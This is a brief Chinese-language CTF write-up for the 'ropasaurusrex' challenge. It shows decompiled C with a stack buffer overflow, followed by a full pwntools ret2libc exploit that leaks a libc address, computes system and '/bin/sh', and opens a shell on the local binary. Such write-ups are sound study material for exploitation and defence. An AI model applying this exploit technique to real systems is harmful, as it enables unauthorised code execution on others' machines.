 # 
#0blog

![](Readme/F7B83453-928E-4E29-A25E-93921125C567.png)

```c
ssize_t __cdecl main()
{
  sub_80483F4();
  return write(1, "WIN\n", 4u);
}

ssize_t sub_80483F4()
{
  char buf; // [esp+10h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

很简单的逻辑，输入、打印。
write出`__libc_start_main` 的地址，找偏移。

![](Readme/3D0AC2D5-3F92-4BDE-B2C7-24E1B5F4EF3E.png)

哦，就是有个问题，本来返回地址设置为main的地址，BUT。。。有问题。。。不明白，所以设置成了下一个函数地址。

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF("./ropasaurusrex")
libc = ELF("./libc.so.6")
#main = elf.symbols['main']
main = 0x80483F4

libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']

p = process("./ropasaurusrex")

payload = flat(['A' * 140, write_plt, main, 1, libc_start_main_got, 8])
p.sendline(payload)
#gdb.attach(proc.pidof(p)[0])
libc_start_main_addr = u32(p.recv()[:4])
print 'libc_start_main_addr: ' + hex(libc_start_main_addr)

system_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - libc.symbols['system'])
binsh_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - next(libc.search('/bin/sh')))
print 'system_addr: ' + hex(system_addr)
print 'binsh_addr: ' + hex(binsh_addr)

payload = flat(['A' * 140, system_addr, main, binsh_addr])
p.sendline(payload)
p.interactive()
```